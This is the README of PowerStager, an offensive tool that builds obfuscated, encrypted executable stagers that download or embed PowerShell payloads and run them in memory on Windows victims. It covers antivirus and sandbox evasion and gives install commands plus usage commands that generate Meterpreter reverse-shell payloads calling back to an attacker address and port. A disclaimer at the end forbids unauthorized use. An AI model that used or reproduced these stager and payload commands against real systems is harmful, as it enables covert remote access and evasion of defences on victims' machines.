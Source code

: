 PowerStager: This script creates an executable stager that downloads a selected powershell payload.
===================================================================================================

Contact
-------
* Author: z0noxz
* Source: https://github.com/z0noxz/powerstager
* Email: z0noxz@mail.com

Description
-----------
This script creates an executable stager that downloads a selected powershell payload, loads it into memory and executes it using obfuscated EC methods. The script will also encrypt the stager for dynamic signatures and some additional obfuscation.

This enables the actual payload to be executed indirectly without the victim downloading it, only by executing the stager. The attacker can then for example implement sandbox evasion on the web server, hosting the payload, instead of in the stager itself.

Additional methods allows the payload to be embedded into the 'stager' and temporarily stored encrypted on disk for memory injection.

Not only are powershell powerful when managing Windows, it's also powerful when exploiting Windows. This script exploits multiple Windows features such as its inherit trust of powershell, interpretation of shorthand syntaxes, code evaluation and more...

How to use
----------

Install it:

	git clone https://github.com/z0noxz/powerstager
	cd powerstager
	sudo ./setup.py install

Generate a meterpreter payload to upload:

	powerstager -t win64 -o out.ps1 -m --lhost 13.37.13.37 --lport 4444 --generate
	powerstager -t win64 -o out.exe -u <url pointing the the uploaded payload>

Generate an embedded meterpreter payload:

	powerstager -t win64 -o out.exe -m --lhost 13.37.13.37 --lport 4444

Generate an embedded custom payload:

	powerstager -t win64 -o out.exe -p input.ps1

## DISCLAIMER:
You shall not misuse this tool to gain unauthorized access. This tool should only be used to expand knowledge, and not for causing malicious or damaging attacks. Performing any attacks without written permission from the owner of the system is illegal.